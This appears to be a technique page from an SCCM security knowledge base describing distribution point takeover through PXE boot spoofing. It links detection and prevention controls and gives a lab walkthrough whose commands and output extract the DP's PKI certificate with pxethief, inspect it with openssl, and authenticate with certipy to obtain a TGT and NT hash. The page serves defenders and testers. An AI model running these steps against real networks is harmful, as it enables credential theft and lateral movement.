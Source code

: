 # ELEVATE-4

## Description
Distribution Point Takeover via PXE Boot Spoofing

## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements
- Local network access
- Line of sight to PXE-enabled distribution point

## Optional Requirement
- Line of sight to a DHCP server (required if a distribution point hasn't been previously discovered)

## Summary
SCCM sites may optionally be configured to support public-key infrastructure (PKI) certificates for secure communications. For deployments with internet-based site systems, PKI certificates are required. When deployed, the distribution point (DP) role requires it's PKI certificate to support client authentication and for the private key to be exportable. The certificate is used by the DP to support communication with HTTPS enabled management points. For PXE-enabled distribution points, the certificate is sent to and used by client computers to authenticate to management points during operating system deployment. For environments that leverage Microsoft's PKI solution Active Directory Certificate Services (AD CS), the certificate generated for the DP role may be used to authenticate as the DP's host AD machine account. An attacker who is able to successfully spoof PXE boot deployment and extract the PKI certificate from the PXE boot variables file contents may gain control of the certificate's AD identity.

## Impact
 The impact of recovery is environment dependent. At a minimuim, based on Microsoft's [documentation](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#site-systems-that-have-a-distribution-point-installed) an attacker that recovers this certificate can impersonate a DP's AD identity and compromise the host system. 

## Defensive IDs
- [DETECT-7: Monitor read access to the SMSTemp directory](../../../defense-techniques/DETECT/DETECT-7/detect-7_description.md)
- [PREVENT-6: Configure a strong PXE boot password](../../../defense-techniques/PREVENT/PREVENT-6/prevent-6_description.md)
- [PREVENT-21: Restrict PXE boot to authorized VLANs](../../../defense-techniques/PREVENT/PREVENT-21/prevent-21_description.md)

## Examples

1. On the attacker server, spoof the PXE boot process with pxethief.py with option 2 to recover the PKI certificate distributed by the targeted DP. A suitable Distribution Point can be identified using [RECON-2](../../RECON/RECON-2/recon-2_description.md). Otherwise, a PXE boot server may be discovered via a PXE DHCP discover broadcast using pxethief's option 1. 

```

┌──(PXEThief)─(root㉿sccm-kali)-[/home/kali/PXEThief]
└─# python3 pxethief.py 2 10.3.10.12

 ________  ___    ___ _______  _________  ___  ___  ___  _______   ________
|\   __  \|\  \  /  /|\  ___ \|\___   ___\\  \|\  \|\  \|\  ___ \ |\  _____\
\ \  \|\  \ \  \/  / | \   __/\|___ \  \_\ \  \\\  \ \  \ \   __/|\ \  \__/
 \ \   ____\ \    / / \ \  \_|/__  \ \  \ \ \   __  \ \  \ \  \_|/_\ \   __\
  \ \  \___|/     \/   \ \  \_|\ \  \ \  \ \ \  \ \  \ \  \ \  \_|\ \ \  \_|
   \ \__\  /  /\   \    \ \_______\  \ \__\ \ \__\ \__\ \__\ \_______\ \__\
    \|__| /__/ /\ __\    \|_______|   \|__|  \|__|\|__|\|__|\|_______|\|__|
          |__|/ \|__|

[+] Generating and downloading encrypted media variables file from MECM server located at 10.3.10.12
[+] Using interface: eth0 - eth0
[+] Targeting user-specified host: 10.3.10.12
[+] Asking ConfigMgr for location to download the media variables and BCD files...
Finished sending 1 packets
Received 1 packets, got 1 answers, remaining 0 packets

[!] Variables File Location: \SMSTemp\2025.06.04.15.34.55.0001.{3221FD8C-81AB-441A-B57F-E3A3D10B2AD4}.boot.var
[!] BCD File Location: \SMSTemp\2025.06.04.15.34.54.04.{3221FD8C-81AB-441A-B57F-E3A3D10B2AD4}.boot.bcd
[!] Blank password on PXE boot found!
[!] Attempting automatic exploitation.
[+] Media variables file to decrypt: 2025.06.04.15.34.55.0001.{3221FD8C-81AB-441A-B57F-E3A3D10B2AD4}.boot.var
[+] Password bytes provided: 0xeaffc0ff3300b8ffbaff6d004a00daffbfffb6ff
[+] Successfully decrypted media variables file with the provided password!
[!] Writing media variables to variables.xml
[!] Writing _SMSTSMediaPFX to 123_affba0f7-65c6-4743-99b0-99af62d_SMSTSMediaPFX.pfx. Certificate password is affba0f7-65c6-4743-99b0-99af62d

```
2. Inspect the certificate with openssl to confirm it's an AD CS certificate and contains the client authentication EKU

```
┌──(PXEThief)─(root㉿sccm-kali)-[/home/kali/PXEThief]
└─$ openssl pkcs12 \
-in 123_affba0f7-65c6-4743-99b0-99af62d_SMSTSMediaPFX.pfx \
-passin pass:affba0f7-65c6-4743-99b0-99af62d \
-nokeys -clcerts | openssl x509 -text -certopt no_pubkey,no_sigdump -noout
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            34:00:00:00:03:cd:a2:70:1a:ec:40:dc:17:00:00:00:00:00:03
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: DC=domain, DC=ludus, CN=ludus-CA
        Validity
            Not Before: Jun  4 19:21:29 2025 GMT
            Not After : Jun  4 19:21:29 2026 GMT
        Subject:
        X509v3 extensions:
            Microsoft certificate template:
                0-.%+.....7.........z..$...#...cb..........d...
            X509v3 Extended Key Usage:
                TLS Web Client Authentication
            X509v3 Key Usage: critical
                Digital Signature, Key Encipherment
            Microsoft Application Policies Extension:
                0.0
..+.......
            X509v3 Subject Key Identifier:
                16:40:8E:22:CF:A9:E8:21:FC:9B:2D:7C:73:90:F5:90:60:8A:89:73
            X509v3 Authority Key Identifier:
                7A:D3:15:84:7A:FD:48:F2:C0:33:D1:BE:5E:62:57:AD:2F:53:EA:C8
            X509v3 CRL Distribution Points:
                Full Name:
                  URI:ldap:///CN=ludus-CA,CN=DC01,CN=CDP,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?certificateRevocationList?base?objectClass=cRLDistributionPoint

            Authority Information Access:
                CA Issuers - URI:ldap:///CN=ludus-CA,CN=AIA,CN=Public%20Key%20Services,CN=Services,CN=Configuration,DC=ludus,DC=domain?cACertificate?base?objectClass=certificationAuthority
            X509v3 Subject Alternative Name: critical
                DNS:sccm-sitesrv.ludus.domain
```

3. Use certipy to authenticate on behalf of the recovered certificate's identity.


```
┌──(Certipy)─(root㉿sccm-kali)-[/home/kali/Certipy]
└─# certipy auth -pfx ../PXEThief/123_affba0f7-65c6-4743-99b0-99af62d_SMSTSMediaPFX.pfx -password affba0f7-65c6-4743-99b0-99af62d -dc-ip 10.3.10.10
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'sccm-sitesrv.ludus.domain'
[*] Using principal: 'sccm-sitesrv$@ludus.domain'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'sccm-sitesrv.ccache'
[*] Wrote credential cache to 'sccm-sitesrv.ccache'
[*] Trying to retrieve NT hash for 'sccm-sitesrv$'
[*] Got hash for 'sccm-sitesrv$@ludus.domain': aad3b435b51404eeaad3b435b51404ee:56c99bd025fb48dea2ea4cdeee878af1
```

## References
- Christopher Panayi, [pxethief](https://github.com/MWR-CyberSec/PXEThief)
- Christopher Panayi, [Identifying and retrieving credentials from SCCM/MECM Task Sequences](https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences)
- CRED-1, [Retrieve secrets from PXE boot media](../../CRED/CRED-1/cred-1_description.md)
- Microsoft, [PKI certificate requirements for Configuration Manager](https://learn.microsoft.com/en-us/intune/configmgr/core/plan-design/network/pki-certificate-requirements#site-systems-that-have-a-distribution-point-installed)
- onSec-fr, [Got pfx from server with client auth](https://github.com/MWR-CyberSec/PXEThief/issues/8)
